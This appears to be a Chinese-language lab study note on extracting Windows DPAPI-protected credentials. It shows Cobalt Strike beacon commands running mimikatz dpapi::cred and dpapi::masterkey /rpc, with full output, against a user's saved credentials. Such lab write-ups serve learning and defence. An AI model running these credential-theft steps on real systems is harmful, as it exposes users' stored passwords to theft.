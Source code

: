 Data Protection API (DPAPI)是windows里的一个组件，专门用于存储RDP或者第三方软件如谷歌chrome里的数据

在srv-1上操作

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659883791874.png)

在wkstn-1上操作


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659884133595.png)


存有bfmaer密码


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659884225306.png)

留意guidMasterKey


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659884392247.png)

```
beacon> mimikatz dpapi::cred /in:C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\9D54C839752B38B233E5D56FDD7891A7
[*] Tasked beacon to run mimikatz's dpapi::cred /in:C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\9D54C839752B38B233E5D56FDD7891A7 command
[+] host called home, sent: 788077 bytes
[+] received output:
**BLOB**
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {a23a1631-e2ca-4805-9f2f-fe8966fd8698}
  dwFlags            : 20000000 - 536870912 (system ; )
  dwDescriptionLen   : 00000030 - 48
  szDescription      : Local Credential Data

  algCrypt           : 00006603 - 26115 (CALG_3DES)
  dwAlgCryptLen      : 000000c0 - 192
  dwSaltLen          : 00000010 - 16
  pbSalt             : f8fb8d0f5df3f976e445134a2410ffcd
  dwHmacKeyLen       : 00000000 - 0
  pbHmackKey         : 
  algHash            : 00008004 - 32772 (CALG_SHA1)
  dwAlgHashLen       : 000000a0 - 160
  dwHmac2KeyLen      : 00000010 - 16
  pbHmack2Key        : e8ae77b9f12aef047664529148beffcc
  dwDataLen          : 000000b0 - 176
  pbData             : b8f619c20d96b775f913dad8962ca4bc2bbb9061679ca753b708e28f093d1a1fa3ca193adf7bc9ab1e52fa6784f6b397f329d139f274eef9b665ae843d5e22859792f8f0db15bf4cba64d77e027c177d8540446e5053e1a20b321904212e334fe5cf91a0a31e6c6bbbb674efca8368bdf159edef723291d50356c7154c8d846f1e41defa7c9e998b28cc420660c4b78f1558ca65d49901231707c9ea7a026fb2932d61f4d2bc8cfa88abc6a1a3b493fe
  dwSignLen          : 00000014 - 20
  pbSign             : 2e12c7baddfa120e1982789f7265f9bb94208985

  ```

留意跟guidMasterKey一样的文件夹
1659884555240.png


```
beacon> ls C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-3263068140-2042698922-2891547269-1120
[*] Tasked beacon to list files in C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-3263068140-2042698922-2891547269-1120
[+] host called home, sent: 115 bytes
[*] Listing: C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-3263068140-2042698922-2891547269-1120\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 740b     fil     03/01/2022 14:22:42   1f242f0d-c827-4673-b768-0a544a0b72cd
 740b     fil     05/24/2021 09:09:04   a1f5745d-f392-4469-8f43-c104ef032f8a
 740b     fil     02/21/2021 11:49:40   a23a1631-e2ca-4805-9f2f-fe8966fd8698
 740b     fil     01/20/2022 15:35:21   bdb76a61-a735-415b-a111-11072928a892
 928b     fil     02/21/2021 11:49:40   BK-DEV
 740b     fil     07/23/2022 02:17:28   f0a666c6-7653-4334-9632-45d945137eac
 24b      fil     07/23/2022 02:17:28   Preferred
```

执行
```
mimikatz dpapi::masterkey /in:C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-3263068140-2042698922-2891547269-1120\a23a1631-e2ca-4805-9f2f-fe8966fd8698 /rpc
```








